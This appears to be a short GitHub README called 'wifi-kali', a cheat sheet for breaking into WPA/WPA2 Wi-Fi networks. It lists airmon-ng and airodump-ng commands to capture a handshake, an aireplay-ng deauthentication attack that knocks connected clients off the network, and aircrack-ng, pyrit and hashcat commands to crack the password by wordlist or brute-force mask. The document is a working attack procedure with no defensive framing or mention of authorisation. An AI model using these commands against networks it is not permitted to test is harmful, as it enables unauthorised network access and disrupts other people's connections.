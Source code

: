# wifi-kali

http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html

## Extract handshake
* airmon-ng start wlan0
* airodump-ng wlan0mon
* airodump-ng -c 1,1 --bssid {target_router_bssid} -w /mnt/mon0 wlan0mon
* aireplay-ng -0 2 -a {target_router_bssid} -c {connected_station_bssid} wlan0mon
* airmon-ng stop wlan0mon

## Crack password

### aircrack-ng
* aircrack-ng -a2 -b {target_router_bssid} -w /mnt/wordlist.txt /mnt/*.cap

### pyrit
* pyrit -r mon0-01.cap analyze
* pyrit -u sqlite:///mydb.db -i wordlist.txt import_passwords
* pyrit -u sqlite:///mydb.db -e {attacked_network_name} create_essid
* #pyrit eval
* pyrit -u sqlite:///mydb.db batch
* pyrit -u sqlite:///mydb.db -r *.cap attack_db

### hashcat
* wpaclean out.cap mon0-01.cap
* aircrack-ng out.cap -J out
* hashcat -m 2500 -a 3 out.hccap '?d?d?d?d?d?d?d?d'
